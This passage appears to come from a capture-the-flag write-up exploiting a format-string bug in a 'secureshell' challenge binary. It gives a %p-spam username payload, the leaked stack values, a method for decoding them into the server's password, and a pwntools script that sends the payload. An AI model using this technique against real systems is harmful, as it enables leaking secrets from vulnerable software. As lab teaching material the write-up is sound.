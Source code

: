 ```
$ ./secureshell 
Welcome to my custom secure shell!
Username: %p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
Invalid Username: 0x7ffcbac7ef00.0x7f95e76348c0.(nil).0x12.(nil).0x4.0x56462564b260.0x4847464544434241.0x504f4e4d4c4b4a49.0x5151515151515151.0x5151515151515151.(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).
```

And here is our leaked password:

```
0x4847464544434241.0x504f4e4d4c4b4a49.0x5151515151515151.0x5151515151515151.
```

So to build the string from the leaked values, we start with the first leaked value: `0x4847464544434241`

We take the last 2 hex characters, `41`, decode it to ASCII, which is `A`.  Then we take the next 2 hex characters from the end, `42`, and decode that to ASCII, which is `B`.  We continue doing this for the entire leaked value, and then move onto the next leaked value.

You could certainly manually do this to leak the remote server's password, but in my opinion it would be quicker to write a Python script to automatically solve it.

I generally like to start my pwn scripts off with some boiler plate code:

```python
#!/usr/bin/env python2
from pwn import *

FNAME = './secureshell'
HOST = '127.0.0.1'
PORT = '7100'
REMOTE = True

def getp():
    if REMOTE:
        p = remote(HOST, PORT)
    else:
        p = process([FNAME])
    return p
```

And here is the code we can use to trigger the strfmt vulnerability, leaking the password:

```python
# Leak password
p = getp()
p.recvuntil('Username: ')

payload = ''
payload += '%p.'*46
p.sendline(payload)

p.recvuntil('Invalid Username: ')

ret = p.recvall()
```
